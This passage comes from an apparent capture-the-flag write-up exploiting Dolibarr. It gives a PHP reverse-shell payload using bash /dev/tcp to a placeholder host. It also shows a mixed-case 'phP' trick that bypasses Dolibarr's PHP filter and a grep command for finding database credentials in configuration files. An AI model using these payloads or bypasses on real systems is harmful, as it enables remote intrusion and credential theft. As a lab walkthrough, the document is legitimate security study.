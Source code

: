 <img src="imgs/testing-RCE.png" alt="Testing_RCE_2" width="80%" height="50%" class="center-60">

So now we create a reverse shell payload
```php
<?phP system("bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'") ;?>
```
<img src="imgs/reverse-shell-con-payload.png" alt="Reverse shell" width="100%" height="60%" class="center">

**NOTE:** very important, take a look at how I intentionally wrote "phP". That's to avoid the Dolibarr service complaining for me creating php code. Basically you can use any misspelling like Php, pHp, PHp, etc., to bypass that and get your code to execute.

## Retriving user flag
The user `www-data` does not contain any flag. And inside `/home` we can find another one called `larissa` but we don't have their credentials.

The command used to search for db_passwords/db_users:
```bash
grep -rnail "DB_USER\|DB_PASSWORD" --exclude "*.lang" --exclude "*.py" --exclude="*.example" --exclude="*.old"
```

Within the output I found a file `conf/conf.php`, which after looking [documentation](https://wiki.dolibarr.org/index.php/Configuration_file) turns out is created automatically when installing Dolibarr. And it contains a password!!

![Dolibarr default conf](imgs/dollibar-conf.png)
